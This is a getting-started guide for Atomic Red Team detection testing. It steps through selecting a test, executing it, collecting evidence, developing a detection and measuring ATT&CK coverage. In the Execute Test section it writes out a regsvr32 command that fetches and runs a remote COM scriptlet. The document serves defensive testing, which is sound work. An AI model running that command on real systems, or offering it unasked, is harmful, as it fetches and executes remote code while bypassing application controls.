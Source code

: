```yaml
---
layout: default
---
```


# Getting Started Testing with Atomic Tests

<img style="float: right;" src="https://www.redcanary.com/wp-content/uploads/image2-5.png">

We suggest a phased approach to running a test and evaluating your results:

1. [Select a test](#select-a-test)
2. [Execute Test](#execute-test)
3. [Collect Evidence](#collect-evidence)
4. [Develop Detection](#develop-detection)
5. [Measure Progress](#measure-progress)

## Best Practices

* Be sure to get permission and necessary approval before conducting tests. Unauthorized testing is a bad decision
and can potentially be a resume-generating event.

* Set up a test machine that would be similar to the build in your environment. Be sure you have your collection/EDR
solution in place, and that the endpoint is checking in and active.

* Spend some time developing a test plan or scenario. This can take many forms. An example test plan could be to
execute all the Discovery phase items at once in a batch file, or run each phase one by one, validating coverage as you go.

## Select a test
Select one or more Atomic Tests that you plan to execute. A complete list, ATT&CK matrices, and platform-specific
matrices linking to Atomic Tests can be found here:

- [Complete list of Atomic Tests](https://github.com/theclintox/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/index.md)
- [Atomic Tests per the ATT&CK Matrix](https://github.com/theclintox/atomic-red-team/blob/master/atomics/Indexes/Matrices/matrix.md)
- Windows [Tests](https://github.com/theclintox/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/windows-index.md) and [Matrix](https://github.com/theclintox/atomic-red-team/blob/master/atomics/Indexes/Matrices/windows-matrix.md)
- macOS [Tests](https://github.com/theclintox/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/macos-index.md) and [Matrix](https://github.com/theclintox/atomic-red-team/blob/master/atomics/Indexes/Matrices/macos-matrix.md)
- Linux [Tests](https://github.com/theclintox/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/linux-index.md) and [Matrix](https://github.com/theclintox/atomic-red-team/blob/master/atomics/Indexes/Matrices/linux-matrix.md)

## Execute Test

In this example we will use Technique `T1117 "Regsvr32"` and Atomic Test `"Regsvr32 remote COM scriptlet execution"`. This particular 
test is fairly easy to exercise since the tool is on all Windows workstations by default.

The details of this test, [which are located here](https://github.com/theclintox/atomic-red-team/blob/master/atomics/T1117/T1117.md#atomic-test-2---regsvr32-remote-com-scriptlet-execution),
describe how you can test your detection by simply running the below command:

```
regsvr32.exe /s /u /i:https://raw.githubusercontent.com/theclintox/atomic-red-team/master/atomics/T1117/src/RegSvr32.sct scrobj.dll
```

## Collect Evidence

What does your security solution observe?
- You may see a file modification in the user’s profile.
- You may detect network connections made by regsvr32.exe to an external IP.
- There may be an entry in the proxy logs.
- You may observe the scrobj.dll loading on Windows.
- Or you might not observe any behavior on the endpoint or network.

This is why we test! We want to identify visibility gaps and determine where we need to make improvements.

![RC Timeline](https://www.redcanary.com/wp-content/uploads/image9-1.png)

![Cb example 1](https://www.redcanary.com/wp-content/uploads/image5-3.png)

![Cb Example 2](https://www.redcanary.com/wp-content/uploads/image7-2.png)

## Develop Detection

So you executed the test and none of your defenses fired – that’s why we test! Based on your observations
and detection capabilities, it is time to use what you have to try to detect this event in your environment.

![Unwind Data](https://www.redcanary.com/wp-content/uploads/image8-1.png)

Once the detection is built, it is time to validate that the detection is working and that it is appropriately
tuned. If you were to write your detection too broadly and “detect” every regsvr32.exe without any suppression,
you are going to be digging out from a mountain of false positives. But if you write it too narrow and it
only detects regsvr32.exe with the exact command line `/s /u /i` then all an attacker has to do is slightly
modify their command line to evade your detection.

## Measure Progress

One of the goals is to try to measure your coverage/capabilities against the ATT&CK Matrix and to identify where you may have gaps. Roberto Rodriguez ([@cyb3rWar0g](https://twitter.com/Cyb3rWard0g)) provided [this spreadsheet](https://github.com/Cyb3rWard0g/ThreatHunter-Playbook/blob/master/metrics/HuntTeam_HeatMap.xlsx) and complementary [blog post](https://cyberwardog.blogspot.com/2017/07/how-hot-is-your-hunt-team.html) showcasing how to determine where you stand within your organization in relation the MITRE ATT&CK Matrix.

![HeatMap](https://www.redcanary.com/wp-content/uploads/image4-5.png)

![Measure](https://www.redcanary.com/wp-content/uploads/image6-2.png)
